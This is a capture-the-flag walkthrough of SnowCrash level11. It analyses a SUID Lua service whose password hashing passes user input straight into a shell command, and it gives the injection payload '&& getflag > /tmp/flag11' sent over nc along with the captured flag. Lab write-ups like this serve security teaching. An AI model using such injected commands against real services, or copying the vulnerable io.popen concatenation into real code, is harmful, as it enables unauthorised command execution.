 # SnowCrash Level11 Walkthrough

## Challenge Description

Exploit a command injection vulnerability in a Lua script that improperly sanitizes user input for a password hashing function.

## Initial Analysis

```bash
level11@SnowCrash:~$ ls -all
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
```

## Files

- `level11.lua`: SUID script (runs as flag11)
- Listening on: `localhost:5151`

## Understanding the Vulnerability

### 1. Port Identification

When executing the script:

```bash
level11@SnowCrash:~$ ./level11.lua
lua: ./level11.lua:3: address already in use
stack traceback:
        [C]: in function 'assert'
        ./level11.lua:3: in main chunk
        [C]: ?
```

```bash
cat level11.lua
# we can see : local server = assert(socket.bind("127.0.0.1", 5151))
```

### 2. Connect to the Service

```bash
nc localhost 5151
Password: test
Erf nope..
```

### 3. Code Analysis

```bash
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

The dangerous function:

```bash
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")  # Vulnerable concatenation
  -- ...hash processing...
end
```

1. The script takes password input via client:receive()
2. Input is directly inserted into a shell command:

```bash
echo [OUR_INPUT] | sha1sum
```

### 4. Step-by-Step Exploit

1. Prepare injection:

```bash
nc localhost 5151
Password: && getflag > /tmp/flag11
```

- The && terminates the echo command
- Output redirects to /tmp/flag11

2. Verify execution:

```bash
cat /tmp/flag11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

## Security Lessons

- Command Injection: Never concatenate user input into shell commands
- Input Sanitization: Use allow-lists or proper escaping

## Next Steps

With the flag fa6v5ateaw21peobuub8ipe6s, we can now proceed to Level12 of the SnowCrash challenge.
